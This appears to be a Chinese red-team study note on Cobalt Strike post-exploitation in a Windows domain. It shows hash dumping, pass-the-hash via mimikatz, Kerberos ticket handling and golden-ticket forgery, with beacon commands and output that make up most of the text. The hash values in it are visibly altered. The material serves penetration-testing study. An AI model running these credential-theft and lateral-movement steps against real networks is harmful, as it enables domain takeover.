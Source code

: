 ```yaml
---
title: 【CS学习笔记】18、密码哈希散列设置信任
date: 2020-04-19 15:06:30
id: 200419-150630
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs18-1.png
summary: 继续上一节密码哈希的部分，在上一节中讲到了使用密码生成用户的令牌，从而取得系统的信任，这一节将介绍使用密码的哈希值来取得系统的信任。
tags:
- Cobalt Strike
- 学习笔记
- 红队
categories:
- CS 学习笔记
---
```


# 0x00 前言

继续上一节密码哈希的部分，在上一节中讲到了使用密码生成用户的令牌，从而取得系统的信任，这一节将介绍使用密码的哈希值来取得系统的信任。

# 0x01 密码哈希

首先使用 `hashdump` 获取用户的密码哈希值，这里的 beacon 会话为 SYSTEM 权限。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Daniel:1000:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
TeamsSix:1002:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```

使用 `pth` 获取信任

```powershell
beacon> pth TEAMSSIX\Administrator 12cb161bvca930994x00cbc0aczf06d1
[+] host called home, sent: 23 bytes
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:Administrator /domain:TEAMSSIX /ntlm:12cb161bvca930994x00cbc0aczf06d1 /run:"%COMSPEC% /c echo ade660d8dce > \\.\pipe\8d3e4c" command
[+] host called home, sent: 750600 bytes
[+] host called home, sent: 71 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
user	: Administrator
domain	: TEAMSSIX
program	: C:\Windows\system32\cmd.exe /c echo ade660d8dce > \\.\pipe\8d3e4c
impers.	: no
NTLM	: 12cb161bvca930994x00cbc0aczf06d1
  |  PID  2992
  |  TID  5028
  |  LSA Process is now R/W
  |  LUID 0 ; 14812112 (00000000:00e203d0)
  \_ msv1_0   - data copy @ 0000000001794E80 : OK !
  \_ kerberos - data copy @ 000000000044A188
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000000017DA1E8 (16) -> null

beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```

# 0x02 Kerberos 票据

关于 Kerberos 的介绍可以查看知乎上的一篇文章，比较形象生动，文章地址： [https://www.zhihu.com/question/22177404](https://www.zhihu.com/question/22177404)

查看有哪些 Kerberos 票据

```powershell
shell klist
```

除去 kerberos 票据

```powershell
kerberos_ticket_purge
```

加载 kerberos 票据

```powershell
kerberos_ticket_use [/path/to/file.ticket]
```

# 0x03 黄金票据

黄金票据 `Golden Ticket` 是 KRBTGT 帐户的 Kerberos 身份验证令牌，KRBTGT 帐户是一个特殊的隐藏帐户，用于加密 DC 的所有身份验证令牌。然后黄金票据可以使用哈希传递技术登录到任何帐户，从而使攻击者可以在网络内部不受注意地移动。

**使用 mimikatz 伪造黄金票据需要：**

**1、目标的用户名及域名**

**2、域的 SID 值**

域的 SID 值即安全标识符 `Security Identifiers`，使用 `whoami /user` 命令可查看，注意不需要 SID 最后的一组数字。

```powershell
beacon> shell whoami /user
[*] Tasked beacon to run: whoami /user
[+] host called home, sent: 43 bytes
[+] received output:

用户信息
----------------

用户名        SID                                         
============= ============================================
teamssix\daniel S-1-5-21-5311978431-183514165-284342044-1000
```

因为不需要 SID 最后一组数字，所以这里要使用的 SID 也就是 `S-1-5-21-5311978431-183514165-284342044`

**3、DC 中  KRBTGT  用户的 NTLM 哈希**

DC 中  KRBTGT  用户的 NTLM 哈希可以通过 dcsync 或 hashdump 获得，下面的 hashdump 命令在域控制器的 SYSTEM 权限会话下运行。

```powershell
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aca3b435b5z404eeaad3f435b51404he:z1f8417a00az34scwb0dc15x66z43bg1:::
daniel:1108:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
```

Cobalt Strike 在 `Access -> Golden Ticket` 中可以打开生成黄金票据的界面。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/cs18-1.png)

信息填完之后，选择 Build，需要注意 Domain 需要填写成 FQDN 格式，即完全合格域名 ` Fully Qualified Domain Name ` ，也就是类似于 `teamssix.com` 的格式。

此时可以通过 `shell dir \\host\C$` 检查自己是否有权限，也可以使用 PowerShell 运行 whoami 查看自己是谁。

```powershell
beacon> powershell Invoke-Command -computer WinDC -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WinDC -ScriptBlock {whoami}
[+] host called home, sent: 203 bytes
[+] received output:
teamssix\administrator
```

> 参考链接：
> 
>[https://www.bilibili.com/video/BV16b411i7n5](https://www.bilibili.com/video/BV16b411i7n5)
> 
>[https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/](https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/)
> 
>更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)